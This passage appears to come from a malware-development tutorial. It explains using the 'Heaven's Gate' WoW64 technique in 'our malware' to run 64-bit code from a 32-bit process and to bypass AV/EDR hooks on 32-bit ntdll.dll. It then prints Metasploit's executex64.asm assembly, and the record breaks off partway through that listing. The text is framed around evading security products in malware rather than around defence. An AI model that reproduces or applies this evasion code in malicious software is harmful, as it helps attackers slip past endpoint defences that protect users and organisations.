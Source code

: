 There're several advantages to use Heaven's Gate in our malware, including but not limited to the following.

1. **Run 64-bit code right through our 32-bit program by WoW64:**

    Don't need a 64-bit executable or process to do 64-bit operations, we can use Heaven's Gate to do the same.

2. **Bypass some AV/EDR detections:**

    Some AV/EDR will focus on hooking the 32-bit `ntdll.dll` since our program is 32-bit, so when we switch to 64-bit and use 64-bit `ntdll.dll`, it can bypass the API hooks.

## Code Walkthrough

### execute64.asm

To implement Heaven't Gate, we can utilize [the code from Metasploit Meterpreter](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/executex64.asm). The following is the `execute64.asm` that they provided.

```nasm
;-----------------------------------------------------------------------------;
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Compatible: Windows 7, 2008, Vista, 2003, XP
; Architecture: wow64
; Version: 1.0 (Jan 2010)
; Size: 75 bytes
; Build: >build.py executex64
;-----------------------------------------------------------------------------;

; A simple function to execute native x64 code from a wow64 (x86) process.
; Can be called from C using the following prototype:
;     typedef DWORD (WINAPI * EXECUTEX64)( X64FUNCTION pFunction, DWORD dwParameter );
; The native x64 function you specify must be in the following form (as well as being x64 code):
;     typedef BOOL (WINAPI * X64FUNCTION)( DWORD dwParameter );

; Clobbers: EAX, ECX and EDX (ala the normal stdcall calling convention)
; Un-Clobbered: EBX, ESI, EDI, ESP and EBP can be expected to remain un-clobbered.

[BITS 32]

WOW64_CODE_SEGMENT EQU 0x23
X64_CODE_SEGMENT EQU 0x33

start:
 push ebp         ; prologue, save EBP...
 mov ebp, esp       ; and create a new stack frame
 push esi        ; save the registers we shouldn't clobber
 push edi        ;
 mov esi, [ebp+8]      ; ESI = pFunction
 mov ecx, [ebp+12]      ; ECX = dwParameter
 call delta        ;
delta:
 pop eax         ;
 add eax, (native_x64-delta)    ; get the address of native_x64

 sub esp, 8        ; alloc some space on stack for far jump
 mov edx, esp       ; EDX will be pointer our far jump
 mov dword [edx+4], X64_CODE_SEGMENT  ; set the native x64 code segment
 mov dword [edx], eax     ; set the address we want to jump to (native_x64)

 call go_all_native      ; perform the transition into native x64 and return here when done.

 mov ax, ds        ; fixes an elusive bug on AMD CPUs, http://blog.rewolf.pl/blog/?p=1484
 mov ss, ax        ; found and fixed by ReWolf, incorporated by RaMMicHaeL
```